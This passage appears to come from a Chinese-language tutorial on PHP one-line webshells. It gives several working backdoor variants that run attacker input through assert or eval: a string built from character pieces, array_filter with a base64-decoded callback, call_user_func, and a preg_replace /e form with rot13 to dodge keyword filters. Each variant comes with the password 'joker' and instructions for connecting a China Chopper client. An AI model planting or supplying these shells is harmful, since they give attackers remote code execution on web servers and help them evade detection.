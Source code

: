 **密码：**joker

**详解：$**g是个数组，$g[1]='s'，chr('116')='t',(https://blog.csdn.net/yabingshi_tech/article/details/19833217 ASCll码对应表)，这样的$gg=

assert，@$gg($_POST[joker])不就是assert($_POST[joker])，是我们常见的一句话木马，直接菜刀链接即可



**3.php (array_filter+base64_decode)**

```php
<?php
    error_reporting(0);
    $e=$_REQUEST['e'];
    $arr=array($_POST['joker'],);
    array_filter($arr,base64_decode($e));
?>
```

**用法:** http://www.xxx.com/3.php?e=YXNzZXJ0

**浏览器提交POST：**joker=phpinfo();

**菜刀连接用法:** http://www.xxx.com/3.php?e=YXNzZXJ0

**密码：**joker

**详解：**YXNzZXJ0的base64解码后的结果为assert，$e接受浏览器传过来的参数，$arr是个数组，array_filter()函数用回调函数过滤数组中的值，

![img](https://images2018.cnblogs.com/blog/1344396/201805/1344396-20180506114547971-274761864.png)

如果我们传入$e的参数为YXNzZXJ0，这样的话我们的回调函数名就是assert，并且要过滤数组中的每一个参数

就构成了assert($_POST['joker'])，常见的一句话木马，直接用菜刀链接即可



**4.php**

```php
<?php
error_reporting(0);
call_user_func('assert', $_REQUEST['joker']);
?>
```

 

**用法:** http://www.xxx.com/4.php

**菜刀连接用法:** http://www.xxx.com/4.php

**密码：**joker

**详解：**call_user_func()函数把第一个参数作为回调函数调用，也就是说assert是被调用的回调函数，其余参数是回调函数的参数。

这样的话就直接构成了  assert($_REQUEST['joker']) 这样的一句话木马，直接用菜刀链接即可

## 2.避开关键字

```php
<?php  
($rcoil = $_POST['rcoil']) && @preg_replace('/ad/e','@'.str_rot13('riny').'($rcoil)', 'add');
?>
```
